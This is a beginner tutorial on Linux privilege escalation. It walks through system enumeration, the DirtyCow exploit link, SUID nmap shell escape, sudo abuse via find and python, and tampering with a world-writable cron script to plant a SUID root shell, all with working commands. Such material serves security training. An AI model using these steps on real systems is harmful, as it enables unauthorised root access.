# Linux  Privilege Escalation

Hey there Learners , so lets start with basic Linux privilege escalation , so to get through this there are some important things which we really need to keep in mind that how a actual Linux system is what are the applications installed default , file permission , odd files , cron jobs , Kernal version , server information etc.

so to find these what you need to do :|

There are some basic commands to find them and pull out the culprits from a vulnerable linux machine.

For finding distribution type and kernel version of the linux machine:
```
cat /etc/issue 
cat /etc/*-release
cat /proc/version 
uname -a 
uname -mrs 
rpm -q kernel
```

These above commands just prints out the kernel version and distribution of a Linux machine 

to privilege escalation with these commands can let you find the right exploit for the kernel level vulnerability and distribuition

For example:
[https://www.exploit-db.com/exploits/40839] (dirtycow)

DirtyCow is known to be very popular exploit and works majority on un-patched linux distribution which were 2016 earlier version of linux distribution  	

# Exploiting Vulnerable Applications and Services 

So here its needs alot of enumeration and understand what certain commands on linux does and how they work so there are certain commands which can let you list out the vulnerable services and application running on a linux machine 

```
ps aux 
ps -ef
top 
cat /etc/services
```

These above commands list outs the services which are running and has user privilege so you need to use "grep" to sort out the services which are running by root :D

 ```
 ps aux | grep root 
 ps -ef | grep root
 ```
so they look simple but you need to check carefully and need to have a active mind while looking for these.

# Exploiting SUID  Executables 

SUID which stands for set user ID, is a Linux feature that allows users to execute a file with the permissions of a specified user. For example, the Linux ping command typically requires root permissions in order to open raw network sockets. By marking the ping program as SUID with the owner as root, ping executes with root privileges anytime a low privilege user executes the program.

> **> -rwsr-xr-x****–** The ‘s’ character instead of ‘x’ indicates that the SUID bit is set.



SUID is a feature that, when used properly, actually enhances Linux security. The problem is that administrators may unknowingly introduce dangerous SUID configurations when they install third party applications or make logical configuration changes.

A large number of sysadmins don’t understand as where to set SUID bit and where not. SUID bit should not be set especially on any file editor as an attacker can overwrite any files present on the system.


**Exploiting vulnerable SUID executable to get root access**

> $  **find / -perm -u=s -type f 2>/dev/null**  – It prints the executables which have SUID bit set



> **$ ls -la /usr/local/bin/nmap –**  Let’s confirm if nmap has SUID bit set or not.



Nmap has SUID bit set. A lot of times administrators set the SUID bit to nmap so that it can be used to scan the network efficiently as all the nmap scanning techniques does not work if you don’t run it with root privilege.

 However, there is a functionality in nmap older versions where you can run nmap in an interactive mode which allows you to escape to shell. If nmap has SUID bit set, it will run with root privilege and we can get access to ‘root’ shell through it’s interactive mode.

$  **nmap –interactive**  – runs nmap interactive mode  
$  **!sh**  – Lets you escape to the system shell from nmap shell




# Exploiting SUDO rights/user


If the attacker can’t directly get root access via any other techniques he might try to compromise any of the users who have SUDO access. Once he has access to any of the sudo users, he can basically execute any commands with root privileges.

Administrators might just allow the users to run a few commands through SUDO and not all of them but even with this configuration, they might introduce vulnerabilities unknowingly which can lead to privilege escalation.

A classic example of this is assigning SUDO rights to the find command so that another user can search for particular files/logs in the system. While the admin might be unaware that the ‘find’ command contains parameters for command execution, an attacker can execute commands with root privilege.

**Exploiting misconfigured SUDO rights to get root access**

> $ **sudo -l**  – Prints the commands which we are allowed to run as SUDO



We can run find, cat and python as SUDO. These all commands will run as root when run with SUDO. If we can somehow escape to the shell through any of these commands, we can get root access.

$ sudo find /home -exec sh -i \; – find command’s exec parameter can be used for arbitrary code execution.



> Never give SUDO rights to any of the programming language compiler, interpreter and editors.

> This technique can also be applied to vi, more, less, perl, ruby, gdb and others.

$ sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’ – spawns a shell



# Exploiting badly configured cron jobs

_Cron jobs, if not configured properly can be exploited to get root privilege.

1. Any script or binaries in cron jobs which are writable?  
2. Can we write over the cron file itself.  
3. Is cron.d directory writable?

Cron jobs generally run with root privileges. If we can successfully tamper any script or binary which are defined in the cron jobs then we can execute arbitrary code with root privilege.

Exploiting badly configured cron jobs to get root access

> $  **ls -la /etc/cron.d**  – prints cron jobs which are already present in cron.d




**$ find / -perm -2 -type f 2>/dev/null –** prints world writable files

$ **ls -la /usr/local/sbin/cron-logrotate.sh**  – Let’s confirm if the cron-logrotate.sh is world writable.




cron-lograte.sh is world writable and it is being run by logrotate cronjob. Any command we write/append in cron-lograte.sh would be executed as ‘root’.
 We write a C file in /tmp directory and compile it.



The rootme executable will spawn a shell.

**$ ls -la rootme**  – It tells us that it is owned by user ‘SHayslett’



**$ echo “chown root:root /tmp/rootme; chmod u+s /tmp/rootme;”>/usr/local/sbin/cron-logrotate.sh –** This will change the executable’s owner and group as root. It will also set the SUID bit.

Chown: The command chown, an abbreviation of change owner, is used on Unix and Unix-like operating systems to change the owner of file system files, directories.

Chmod : In Unix and Unix-like operating systems, chmod is the command and system call which is used to change the access permissions of file system objects.

$ **ls -la rootme** – After 5 minutes, the logrotate cronjob was run and cron-logrotate.sh got execute with root privilege.

$ **./rootme** – spawns a root shell.


